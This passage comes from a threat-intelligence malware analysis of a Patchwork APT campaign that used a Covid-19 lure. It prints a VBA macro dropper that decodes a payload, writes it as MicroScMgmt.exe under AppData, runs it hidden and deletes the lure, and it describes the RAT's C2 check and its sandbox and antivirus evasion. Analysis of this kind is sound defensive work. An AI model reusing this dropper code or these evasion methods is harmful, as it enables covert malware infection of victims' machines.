 <h4>This code can be found on Visual Basic forums which give functions ready to use.</h4>
<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Indian/APT/Patchwork/2020-07-23/Pictures/Code.png"></img></center>
<h4>The second function called by the mouseover of the image content lot of comments and will be analysed later. Like the lure, lot of functions are concate for get the string (implant), this is parsed with the algorithms and decoded for write and execute the payload.This delete the lure file on the disk too.</h4>

```vb
Sub sampledel()
    On Error Resume Next
    Dim wor As Word.Application
    Set wor = GetObject(, "Word.Application")
    wor.Documents("Covid19_Guidelines.doc").Close
End Sub
Public Function DropPayloads() As Variant ' version without comments
    Set sh = CreateObject("WScript.Shell")
    Dim wshell, Path_Payload, Path_Unused, Path_Base, Path_SideDLL, Path_legit, Temp_Folder, Path_APP, Appdata_Folder, ScriptingObj, ShObj
    Set wshell = CreateObject("WScript.Shell").Environment("PROCESS")
    Temp_Folder = wshell("TEMP")
    Set ScriptingObj = CreateObject("Scripting.FileSystemObject")
    Path_Payload = Temp_Folder & "\micro"
    Payload = Payload & mi1
    Payload = Payload & mi2
    Payload = Payload & mi3
    Payload = Payload & mi4
    Set ScObject = ScriptingObj.createTextFile(Path_Payload, True)
    ScObject.Write Decode(Payload)
    ScObject.Close
    Appdata_Folder = wshell("APPDATA")
    Appdata_Folder = Appdata_Folder & "\Microsoft"
    Path_APP = Appdata_Folder & "\MicroScMgmt.exe"
    If Not ScriptingObj.FileExists(Path_APP) Then
        WriteFile MultiByteToBinary(ReadStream(Path_Payload)), Path_APP
    End If
    If ScriptingObj.FileExists(Path_Payload) Then
        ScriptingObj.DeleteFile Path_Payload
    End If
    Set ShObj = CreateObject("WScript.shell")
    ShObj.Run Path_APP, 0, False
    Set ShObj = Nothing
    sampledel
End Function
```

<h4>As first, the RAT verify if this possible to join legitimate domain for be ensure to be possible to contact the C2.If the result is successful, this perform the rest of the operations.</h4> 

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Indian/APT/Patchwork/2020-07-23/Pictures/BozokRAT/CheckConnect.png"></img></center>

<h4>The implant checks if this on a sandbox or on a VM by the debugger. This check after on the list on the process, this verifies is the AV is present and give a code.The process is based on recognition in modules (exe, dlls) mounted in memories by the process or by its process name.</h4>
